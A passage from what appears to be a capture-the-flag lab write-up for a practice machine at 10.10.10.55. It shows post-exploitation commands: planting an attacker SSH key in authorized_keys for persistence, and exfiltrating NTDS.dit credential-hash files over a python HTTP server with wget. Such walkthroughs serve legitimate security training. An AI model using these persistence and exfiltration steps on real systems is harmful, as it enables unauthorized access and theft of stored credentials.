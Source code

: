 ```bash
LISTEN     0      128         :::22                      :::*                  
LISTEN     0      128         :::60000                   :::* 
```

We also check /home dir:

```bash
ls /home

atanas  tomcat

id

uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
```

We have a home dir. This mean we can have ssh login, let’s achieve persistence

```bash
#Let's create a ssh key on attack host
ssh-keygen -f tomcat
cat tomcat.pub

ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGRxx3OoboyvTKrB/FcF3RSocAPsOy2OAnjbBb+yVEQg kali@kali

#Now cat the content and echo it to authorized_keys on target host
mkdir .ssh
cd .ssh
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGRxx3OoboyvTKrB/FcF3RSocAPsOy2OAnjbBb+yVEQg kali@kali" >> authorized_keys

#Now we try to login:
chmod 600 tomcat #change to secure permission to allow use of private key

ssh -i tomcat tomcat@10.10.10.55

```

This does not work. Checking the /etc/ssh/sshd_config shows that public key authentication is disabled.

In the tomcat home dir, we find archive_data/pentest_data:

```bash
20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
```

It says ntds, which includes user credential hashes etc. Let’s exfiltrate these files:

```bash
#on target
python3 -m http.server 8000

#on attack box
wget http://10.10.10.55:8000/20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin

wget http://10.10.10.55:8000/20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
```
